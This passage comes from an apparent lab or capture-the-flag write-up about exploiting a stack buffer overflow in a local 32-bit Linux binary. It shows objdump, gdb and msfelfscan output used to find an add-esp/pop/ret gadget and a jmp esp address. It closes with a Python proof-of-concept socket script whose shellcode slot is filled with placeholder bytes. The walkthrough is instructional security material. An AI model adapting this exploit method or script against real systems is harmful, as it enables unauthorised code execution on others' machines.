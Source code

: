 ```
root@kali:~# objdump -D bar | grep -e 'add.*esp'
 80489a9:	83 84 24 8c 01 00 00 	addl   $0x1,0x18c(%esp)
 8048a32:	83 c4 1c             	add    $0x1c,%esp
```
 
ADD $0x1C,%ESP would be perfect for removing 28 bytes. That meant i just needed a POP instruction to remove another 4 bytes and the top of the stack would contain my shellcode. As it turned out, this particular instruction happened to be followed by 4 POP instructions and a RET:

```
root@kali:~# gdb -q -batch -n -se bar -ex 'x/10i 0x08048a32'
   0x8048a32 <__libc_csu_init+82>:	add    $0x1c,%esp
   0x8048a35 <__libc_csu_init+85>:	pop    %ebx
   0x8048a36 <__libc_csu_init+86>:	pop    %esi
   0x8048a37 <__libc_csu_init+87>:	pop    %edi
   0x8048a38 <__libc_csu_init+88>:	pop    %ebp
   0x8048a39 <__libc_csu_init+89>:	ret    
   0x8048a3a <__i686.get_pc_thunk.bx>:	mov    (%esp),%ebx
   0x8048a3d <__i686.get_pc_thunk.bx+3>:	ret    
   0x8048a3e <__i686.get_pc_thunk.bx+4>:	nop
   0x8048a3f <__i686.get_pc_thunk.bx+5>:	nop
```

So this instruction would remove 44 bytes from the stack, which would still return to an area I controlled. After executing RET, this would set EIP to the next address on the stack. This address should ideally point to a JMP ESP instruction. Using msfelfscan I was able to find one such address in the binary:

```

root@kali:~# msfelfscan -j esp bar
[bar]
0x08048697 jmp esp
```

To exploit this program, EIP needed to be overwritten with 0x08048a32, which would clear the stack. That series of instructions ends with a RET, which would set EIP to an address pointing to a JMP ESP. This in turn would begin executing the shellcode. I started the PoC with the following:

```python
#!/usr/bin/env python
import socket, struct

target = "127.0.0.1"
port = 65535

buf  = "A" * 17                         # junk  
buf += struct.pack("<I", 0x08048697)    # jmp esp
buf += "B" * 150                        # shellcode goes here
buf += struct.pack("<I", 0x08048a32)    # add 0x1c/pop/pop/pop/pop/ret 
buf += "C"* 25                          # junk

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target, port))
s.recv(1024)
s.send(buf)
s.recv(1024)
s.close()
```
